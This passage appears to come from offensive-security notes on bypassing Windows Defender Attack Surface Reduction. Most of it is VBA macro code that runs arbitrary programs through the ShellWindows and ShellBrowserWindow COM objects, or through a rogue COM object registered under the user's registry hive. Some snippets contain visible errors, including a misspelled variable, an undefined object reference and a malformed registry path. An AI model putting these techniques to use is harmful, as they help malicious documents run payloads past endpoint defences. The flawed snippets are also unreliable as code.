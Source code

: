 		```
		Sub ShellWindowsExec(targetPath As String)
		    Dim targetArguments As Variant
		    Dim targetFile As String
		    ' Separate file and arguments from cmdline
		    targetFile = Split(targetPath, " ") (0)
		    targetArguments = GetArguments(targetPath)
		    ' Get object
		    Set ShellWidnows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
		    Set itemObj = ShellWindows.Item()
		    itemObj.Document.Application.ShellExecute targetFile, targetArguments, "", "open", 1
		End Sub
		```
* ShellBrowserWindow (CLSID: C08AFD90-F2A1-11D1-8455-AA0AC91F3880)
	* References
		* [https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf](https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf)
	* Code

		```
		Sub ShellWindowsExec(targetPath As String)
		    Dim targetArguments As Variant
		    Dim targetFile As String
		    ' Separate file and arguments from cmdline
		    targetFile = Split(targetPath, " ") (0)
		    targetArguments = GetArguments(targetPath)
		    ' Get object
		    Set shellBrowserWindow = GetObject("new:C08AFD90-F2A1-11D1-8455-AA0AC91F3880")
		    Set itemObj = ShellWindows.Item()
		    shellBrowserWindow.Document.Application.ShellExecute targetFile, targetArguments, "", "open", 1
		End Sub
		```
* Custom COM Object
	* References
		* [https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf](https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf)
	* Overview
		* Since we have access to the registry, we can simply just create a new rogue COM object with LocalServer32 set and call it. ASR Bypass.
	* Code

			' Exec process by creating custom COM object
			Sub ComObjectExec(targetPath)
			    Dim wsh As Object
			    Dim regKey, clsid As String
			    Set wsh = CreateObject("WScript.Shell")
			    ' Register a false com object
			    clsid = "{C7B167EA-DB3E-4659-BBDC-D1CCC00EFE9C}"
			    regKeyClass = "HKEY_CURRENT_USER\Software\Classes\CLSID\" & clsid & "\"
			    regKeyLocalServer = "HKEY_CURRENT_USER\Software\Classes\CLSID" & clsid & "\LocalServer32\"
			    ' Create keys
			    wsh.RegWrite regKeyClass, "whatever", "REG_SZ"
			    wsh.RegWrite regKeyLocalServer, targetPath, "REG_EXPAND_SZ"
			    ' Start registered COM object CLSID
			    GetObject ("new:" & clsid)
			    ' Remove keys
			    wsh.RegDelete regKeyLocalServer
			    wsh.RegDelete regKeyClass
			End Sub
* Move DLL and change directory
	* References
		* [https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf](https://blog.sevagas.com/IMG/pdf/bypass_windows_defender_attack_surface_reduction.pdf)
	* Overview